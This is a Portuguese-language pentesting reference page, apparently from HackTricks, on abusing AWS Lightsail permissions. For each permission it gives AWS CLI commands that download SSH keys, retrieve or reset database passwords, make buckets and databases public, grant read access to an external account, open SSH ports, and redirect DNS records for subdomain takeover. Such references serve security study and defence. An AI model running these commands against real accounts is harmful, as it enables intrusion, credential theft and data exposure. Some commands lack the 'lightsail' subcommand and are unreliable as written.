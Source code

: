 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Para mais informações sobre Lightsail, consulte:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> É importante notar que o Lightsail **não usa funções IAM pertencentes ao usuário**, mas a uma conta gerenciada pela AWS, então você não pode abusar deste serviço para privesc. No entanto, **dados sensíveis** como código, chaves de API e informações de banco de dados podem ser encontrados neste serviço.

### `lightsail:DownloadDefaultKeyPair`

Esta permissão permitirá que você obtenha as chaves SSH para acessar as instâncias:
```
aws lightsail download-default-key-pair
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das instâncias.

### `lightsail:GetInstanceAccessDetails`

Esta permissão permitirá que você gere chaves SSH para acessar as instâncias:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impacto Potencial:** Encontre informações sensíveis dentro das instâncias.

### `lightsail:CreateBucketAccessKey`

Esta permissão permitirá que você obtenha uma chave para acessar o bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impacto Potencial:** Encontre informações sensíveis dentro do bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Esta permissão permitirá que você obtenha as credenciais para acessar o banco de dados:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impacto Potencial:** Encontre informações sensíveis dentro do banco de dados.

### `lightsail:UpdateRelationalDatabase`

Esta permissão permitirá que você altere a senha para acessar o banco de dados:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Se o banco de dados não for público, você também pode torná-lo público com essas permissões com
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Impacto Potencial:** Encontrar informações sensíveis dentro do banco de dados.

### `lightsail:OpenInstancePublicPorts`

Esta permissão permite abrir portas para a Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acesso a portas sensíveis.

### `lightsail:PutInstancePublicPorts`

Esta permissão permite abrir portas para a Internet. Observe que a chamada fechará qualquer porta aberta que não esteja especificada nela.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acesso a portas sensíveis.

### `lightsail:SetResourceAccessForBucket`

Esta permissão permite dar a uma instância acesso a um bucket sem credenciais extras.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Impacto Potencial:** Acesso potencial a buckets com informações sensíveis.

### `lightsail:UpdateBucket`

Com esta permissão, um atacante poderia conceder ao seu próprio conta AWS acesso de leitura sobre buckets ou até mesmo tornar os buckets públicos para todos:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impacto Potencial:** Acesso potencial a buckets com informações sensíveis.

### `lightsail:UpdateContainerService`

Com essas permissões, um atacante poderia conceder acesso a ECRs privados do serviço de contêineres.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impacto Potencial:** Obter informações sensíveis do ECR privado

### `lightsail:CreateDomainEntry`

Um atacante com essa permissão poderia criar um subdomínio e apontá-lo para seu próprio endereço IP (tomada de subdomínio), ou elaborar um registro SPF que lhe permita falsificar e-mails do domínio, ou até mesmo definir o domínio principal para seu próprio endereço IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Tomada de controle de um domínio

### `lightsail:UpdateDomainEntry`

Um atacante com essa permissão poderia criar um subdomínio e apontá-lo para seu próprio endereço IP (tomada de controle do subdomínio), ou elaborar um registro SPF que lhe permita falsificar e-mails do domínio, ou até mesmo definir o domínio principal para seu próprio endereço IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Tomar controle de um domínio

{{#include ../../../banners/hacktricks-training.md}}
